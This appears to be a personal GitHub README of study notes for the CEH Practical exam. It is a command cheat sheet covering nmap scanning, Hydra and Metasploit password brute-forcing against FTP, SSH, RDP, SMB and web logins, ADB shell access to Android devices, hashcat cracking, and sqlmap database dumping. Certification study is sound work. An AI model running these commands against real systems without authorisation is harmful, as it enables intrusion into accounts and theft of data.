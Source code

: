 # practicemyself
CEH Practical Important Notes

I'm Preparing CEH Practical V11. hope it will be help full to all of you guys. If any suggetions to me just connect with twitter and dm me. Thank You.


###Marks:

I will update soon --->


So let's start >>>>>>

### 1. Find the IP target.
 ```
  $ ip addr or
  $ ifconfig
  $ netdiscover -r IP/24
  $ netdiscover  (If not found $ apt-get install netdiscover)
  $ netdiscover -i eth0   (confirm from ifconfig which net/wifi using)
  
 May be IP targets are same. For me, this is the IP (172.16.0.0/24) for my target.
 ```
### 2. Nmap scan all
  ```
  $ nmap IP -sV -sC -p -O -oN output.txt
  
  -iL=import IPs,  --top-ports 1000
  ```
### 3. IPs Service, RDP(3389), SQL(3306), FTP(21) check
 ```
  $ nmap -Pn -p 3389 IP | grep open
  $ nmap -Pn -p 3306 IP | grep open
  $ nmap -Pn -p 21 IP | grep open
  ```
### 4. Windows Comman Line
  $ Net user

### 5. Wordlist location find
 ```
  $ locate wordlists
  $ locae rockyou.txt
```
### 6. WP scan (Wp Vulnerability)
```
  $ wpscan --url IP --enumerate u
  $ wpscan --url IP -u root -P passwdfile.txt
  
  --enumerate p, -U username, -P password, --usernames userlist.txt, --passwords passwdlist.txt
  
 I was faced problems with WP Scanner to bruteforicing, I recommend to use Metasploit for bruteforcing in Wordpress passwod.
 keep it mind:- Password wordlist are like same but try to find exact password lists.
  
 Using Metasploit==>
 => msfconsole 
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Pass.txt
set RHOSTs IP
set RPORT PORT
set TARGETURI http://IP:port
set USERNAME admin
->run
```
### 7. Hydra
``` 
 Use for FTP:
     $ hydra -l user -P passlist.txt ftp://IP
 Use for SSH:
     $ hydra -l <username> -P passwdlist.txt IP -t 4 ssh
 Use for Web Post:
     $ hydra -l <username> -P <wordlist> 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

- hydra -L usernames.txt -P pass.txt <IP> mysql
- hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V`
- hydra -V -f -L <userslist> -P <passwlist> ***rdp***://<IP>`
- hydra -P common-snmp-community-strings.txt target.com snmp
- hydra -l Administrator -P words.txt 192.168.1.12 smb t 1
```

### 8. FTP
```
FTP Connect
  $ ftp IP
  
  After connect with FTP go to the file
  $ get file.txt
  $ get file1.txt

When I was first connect from the parot server, I did'nt get the file. So I have connected from winodws machine, then i had got the file easily.   
 
https://www.javatpoint.com/ftp-commands
https://www.serv-u.com/linux-ftp-server/commands
```
### 10. Android
```
  $ netdiscover -r IP/24   (got final IP)
  $ nmap IP -sV -p 5555
  
  apt install adb (if not available
  Command:
  $ apt connect IP:5555
  $ adb shell
  pwd > ls > cd sdcard > ls > cd downloads > cat file.txt
```
### 11. Stegnography
  ```
  $ Snow.exe -C -p “given_password” file_name.txt
  -C  compressing / uncompressing
  -p  password

  Open Stego (GUI tool):
     Open the exe > open and select file > click get
 ```
### 12. Cryptography
```
#### Identify:
https://hashes.com/en/tools/hash_identifier
https://www.onlinehashcrack.com/hash-identification.php
https://www.tunnelsup.com/hash-analyzer
#### Crak hash:
https://hashes.com/en/decrypt/hash
https://crackstation.net

  $ hash-identifier  ->Enter and paste the hash.
  $ Hashcat -a 3 -m 900 hash.txt /rockyou.txt
  -a attack mode (3)
  -m hashtype (select number fom below)
   900 = md4
   1800 = SHA512CRYPT
   110  = SHA1 with SALT HASH
   0  = MD5
   100 = SHA1
   1400 = SHA256
  ``` 
## 13. Used Tools
```
Veracrypt = Encryt / Decrypt the Hidden Disk 
Cryptool
Snow
Bctextencoder
Md5 hash calculator
Wpscan
Nmap
Metasploit
Hydra
Wireshark
OWASP ZAP  
RDP
```
### 14. Command Injection (DVWA)
```
DVWA:
Path: C:\wamp64\www\DVWA\hackable\uploads\maybefile

View a file cmd: "type"
Decrypt - https://hashes.com/en/decrypt/hash
```
### 15 SQL Injection with SQLmap:
  ```
  $ sqlmap -u http://site.com?id=1 --cookie="cookies" --risk 3 --level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/?id=1&Submit=Submit" --cookie="cookies1;cookies2" --data="data" --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/cookies.php" --cookie="cookies1;cookies2" --data="data" -p id --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename --tables
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename -T tables name --dump
```
### 16. Wireshark
```
Filters:
To find DOS (SYN and ACK) : tcp.flags.syn == 1, tcp.flags.syn == 1 and tcp.flags.ack == 0
To find passwords : http.request.method == POST
     Shortcut: Click tools > Credentials

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
https://www.hackers-arise.com/post/2018/09/27/network-forensics-part-2-detecting-and-analyzing-a-scada-dos-attack
```

